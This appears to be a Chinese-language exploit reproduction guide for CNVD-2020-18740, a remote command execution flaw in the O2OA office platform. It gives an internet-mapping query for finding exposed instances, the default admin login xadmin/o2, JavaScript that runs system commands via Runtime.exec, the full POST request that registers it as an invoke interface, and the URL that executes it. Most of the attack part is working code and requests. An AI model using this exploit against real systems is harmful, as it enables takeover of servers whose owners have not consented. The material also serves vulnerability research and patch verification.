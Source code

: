 # O2OA invoke 后台远程命令执行漏洞 CNVD-2020-18740

## 漏洞描述

O2OA是一款开源免费的企业及团队办公平台，提供门户管理、流程管理、信息管理、数据管理四大平台,集工作汇报、项目协作、移动OA、文档分享、流程审批、数据协作等众多功能，满足企业各类管理和协作需求。 O2OA系统invoke 接口存在远程代码执行漏洞。攻击者可利用漏洞执行任意代码。

## 漏洞影响

```
O2OA
```

## 网络测绘

```
title=="O2OA"
```

## 漏洞复现

登录页面

![image-20220829102732087](./images/202208291027154.png)

默认密码登录后台 `xadmin/o2`

![image-20220829102745518](./images/202208291027581.png)

在应用中找到服务管理，创建接口代码执行系统命令

```
var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("id").getInputStream()));

var result = [];
while (true) {
    var oneline = bufReader.readLine();
    result.push(oneline);
    if (!oneline) break;
}
var result = { "Result": result };
this.response.setBody(result, "application/json"); 
```

![image-20220829102805328](./images/202208291028397.png)

请求包

```
POST /x_program_center/jaxrs/invoke?v=6.3 HTTP/1.1
Authorization: PfyuxmzgIzrrkjVKSmRBJ4uCkH5tYmpq50QnO7mEHhA

{"id":"cmd","name":"cmd","enableToken":false,"alias":"","description":"","validated":true,"enable":true,"text":"var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(\"id\").getInputStream()));\n\nvar result = [];\nwhile (true) {\n    var oneline = bufReader.readLine();\n    result.push(oneline);\n    if (!oneline) break;\n}\nvar result = { \"Result\": result };\nthis.response.setBody(result, \"application/json\"); ","remoteAddrRegex":"","createTime":"2022-08-27 04:39:18","updateTime":"2022-08-27 04:39:18"}
```

![image-20220829102821768](./images/202208291028838.png)

创建成功后访问接口执行系统命令

```
/x_program_center/jaxrs/invoke/cmd/execute
```

![image-20220829102832557](./images/202208291028615.png)
